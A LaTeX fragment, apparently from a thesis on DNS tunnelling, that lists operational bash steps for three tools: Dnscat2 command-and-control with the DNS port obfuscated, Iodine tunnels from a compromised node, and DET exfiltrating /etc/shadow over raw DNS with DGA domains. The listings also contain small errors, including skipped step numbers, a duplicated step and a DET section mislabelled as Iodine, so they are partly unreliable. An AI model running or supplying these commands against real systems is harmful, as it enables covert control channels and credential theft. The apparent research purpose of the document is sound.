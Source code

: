 \documentclass [11pt, proquest] {uwthesis}[2020/02/24]
\begin{document}
\begin{lstlisting}[language=bash,caption={Steps to use Dnscat2 for Dns C2 with DNS port obfuscation layered random UDP port},label={lst:dnscat2-steps-port-obfuscation}]
# 1. Start Dnscat2 C2 server on attacker node with port obfuscation, DNS protocol itself tunnelled over random UDP port with internally tunnelling any protocol payload
sudo ruby dnscat2.rb --dns 'host=<attacker_node>,port=<dns_overlay_udp_port>,domain=<c2_domain>'
# 2. Connect to dnscat c2 server from compromised node in data plan
./dnscat --dns server=<attacker_node>=<dns_overlay_udp_port>,domain=dnscat.strive.io --secret=<c2_session_secret>
# 6 carry all the c2 attacks once compromised node is connected to C2 server.
\end{lstlisting}


\subsubsection{Iodine}
Iodine documentation for building the Iodine tunnel server server and client can be found on official documentation page at \href{https://github.com/yarrick/iodine}{Github}
\begin{lstlisting}[language=bash,caption={Steps to use Iodine for Dns tunnelling using kernel encapsulation ppp TUN/TAP links},label={lst:iodine-steps}]
# 1. Start iodine tunneling server 
sudo iodined -f -P <password> <TUN/TAP_overlay_CIDR> <tunnel_domain>
# 2. Verify the required TUN/TAP pointtopoint netdev link created, defaults to dns0 
ip addr show dev dns0 
# 3. On compromised node in data plane start the iodine client 
sudo iodine -P <password> -f  -r <tunnel_server> <tunnel_domain>
# 4 Verify the required TUN/TAP pointtopoint netdev link created in CIDR range default to <TUN/TAP_overlay_CIDR>/24
ip addr show dev dns0
# Tunnel any protocol payload through the compromised node encpasulated traffic passed through PPP TUN/TAP links on both systems.
\end{lstlisting}

\subsubsection{DET}
DET documentation for building the Iodine tunnel server server and client can be found on official documentation page at \href{https://github.com/sensepost/DET}{Github}
\begin{lstlisting}[language=bash,caption={Steps to use DET for raw DNS exfiltration},label={lst:det-steps}]
# 1. Configure the DNS module in config.json in DET for raw exfiltration, with any domain generated via DGA, and IP pointing to the DNS server.
# 2. Start the DET server
sudo python det.py -L -c ./config.json -p dns 
# 3. Configure the DNS module in config.json in DET for raw exfiltration, with any domain generated via DGA, and IP pointing to the DNS server.
python det.py -c ./config.json -f /etc/shadow
3 4. restart the script and continue to exfiltrate files via raw DNS exfiltration. 
\end{lstlisting}
\end{document}
